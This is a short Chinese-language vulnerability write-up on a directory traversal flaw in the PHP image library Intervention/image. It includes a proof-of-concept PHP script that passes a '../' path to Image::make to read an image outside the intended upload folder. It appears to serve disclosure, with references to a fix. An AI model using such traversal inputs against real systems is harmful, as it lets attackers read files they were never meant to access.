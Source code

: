 # PHP图像处理组件：Intervention/image 目录遍历漏洞


Intervention/image是一个PHP图像处理组件，是基于Imagick和GD，可以用于改变图片大小，剪裁，添加水印等等功能，此外还有图片缓存功能，在动态URL获取图片尺寸的应用非常有效。此程序包容易受到目录遍历攻击。

**PoC：**

1.htdocs文件夹中创建一个项目目录

2.使用composer安装软件包。[这里下载](http://image.intervention.io/getting_started/installation)

3.创建以下文件夹结构，将我们的图像存储在您的项目根目录下

```
uploads
-> first-folder
--> image-1.jpg
-> second-folder
--> image-2.jpg
```

4.在您的项目根目录下创建一个test.php文件，然后将此代码复制并粘贴到下面：

```php
<?php

require 'vendor/autoload.php';

$imageFilename = '../2/image-2.jpg';

// import the Intervention Image Manager Class
use Intervention\Image\ImageManagerStatic as Image;

// open an image file
$img = Image::make('uploads/1/'.$imageFilename);

// now you are able to resize the instance
$img->resize(320, 240);

// finally we save the image as a new file
$img->save('uploads/1/newphoto.jpeg');
```

5.在项目根目录中打开终端，然后运行命令 php test.php

6.验证图像现在位于您的uploads/1/newphoto.jpeg文件夹中，该文件夹属于uploads/2/image-2.jpeg

![](images/16107164481030.jpg)


ref：

* https://github.com/Intervention/image/pull/1069
* https://forum.ywhack.com/thread-114978-1-1.html
